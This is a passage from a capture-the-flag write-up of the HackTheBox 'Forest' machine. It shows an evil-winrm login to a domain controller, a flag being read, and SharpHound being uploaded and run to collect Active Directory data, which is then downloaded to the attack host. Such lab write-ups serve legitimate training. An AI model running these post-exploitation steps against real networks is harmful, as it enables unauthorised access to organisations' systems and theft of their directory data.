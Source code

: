 With WinRM access, we can now log into the DC and compromise the `user.txt` file.

```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s<REDACTED>e
<SNIP>
*Evil-WinRM* PS C:\Users\svc-alfresco> type desktop\user.txt
5a4<REDACTED>f85
```

## Privilege Escalation

### Sniffing Out an Attack Path

One of the most efficient ways to discover potential privilege escalation paths after obtaining an initial foothold is using SharpHound to collect domain information and then pass its output to BloodHound to analyze it.

{% code overflow="wrap" %}
```bash
# upload SharpHound to the target
*Evil-WinRM* PS C:\Users\svc-alfresco> upload SharpHound.exe

Info: Uploading /home/kali/htb/forest/SharpHound.exe to C:\Users\svc-alfresco\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!
# execute SharpHound
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound.exe -c all
2024-03-21T10:47:22.7320547-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-21T10:47:22.7635116-07:00|INFORMATION|Initializing SharpHound at 10:47 AM on 3/21/2024
2024-03-21T10:47:23.1694956-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2024-03-21T10:47:23.3413546-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-21T10:47:24.2945393-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-03-21T10:47:24.4195984-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-03-21T10:47:24.4195984-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-03-21T10:47:54.3727492-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
2024-03-21T10:48:09.6852182-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-03-21T10:48:09.7320783-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-03-21T10:48:09.8414520-07:00|INFORMATION|Status: 162 objects finished (+162 3.6)/s -- Using 48 MB RAM
2024-03-21T10:48:09.8414520-07:00|INFORMATION|Enumeration finished in 00:00:45.5451881
2024-03-21T10:48:09.9195587-07:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
 119 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-03-21T10:48:09.9351804-07:00|INFORMATION|SharpHound Enumeration Completed at 10:48 AM on 3/21/2024! Happy Graphing!
# download the output to the attack host
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20240315124803_htblocal.zip

Info: Downloading C:\Users\svc-alfresco\20240315124803_htblocal.zip to 20240315124803_htblocal.zip

Info: Download successful!
```
{% endcode %}
